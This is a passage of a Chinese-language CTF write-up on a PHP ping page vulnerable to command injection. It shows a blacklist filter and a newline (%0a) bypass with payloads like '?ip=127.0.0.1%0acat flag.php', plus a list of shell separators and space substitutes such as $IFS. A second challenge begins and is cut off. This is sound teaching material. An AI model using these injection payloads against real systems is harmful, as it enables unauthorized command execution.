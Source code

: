 ```php
<?php
if(isset($_REQUEST[ 'ip' ])) {
    $target = trim($_REQUEST[ 'ip' ]);
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '|' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    $cmd = shell_exec( 'ping  -c 4 ' . $target );
        echo $target;
    echo  "<pre>{$cmd}</pre>";
}
show_source(__FILE__);
```

可以看到基本上的命令分隔符都被过滤了，可以可以换行（%0a）绕过

> 多条命令设置在同一个快捷键时，需要注意命令分隔符的使用
>
> ```
> $cmd = shell_exec( 'ping  -c 4 ' . $target );
> Payload: ?ip=127.0.0.1%0als
> ```
>
> cat命令可以用来查看文件内容`?ip=127.0.0.1%0acat flag.php`
>
> trim() 函数移除字符串两侧的空白字符或其他预定义字符。

命令分隔符

> linux中：%0a 、%0d 、; 、& 、| 、&&、||
> windows中：%0a、&、|、%1a（一个神奇的角色，作为.bat文件中的命令分隔符）

空格可以用以下字符串代替

> < 、<>、%20(space)、%09(tab)、$IFS$9、 ${IFS}、$IFS等





# challenge 10

**源码**

```php
<?php 
require __DIR__.'/flag.php';
if (isset($_POST['answer'])){ 
    $number = $_POST['answer']; 
    if (noother_says_correct($number)){ 
        echo $flag; 
    }  else { 
        echo "Sorry"; 
    } 
} 

function noother_says_correct($number) 
{ 
    $one = ord('1');  #ord() 函数:返回字符串的首个字符的 ASCII 值
```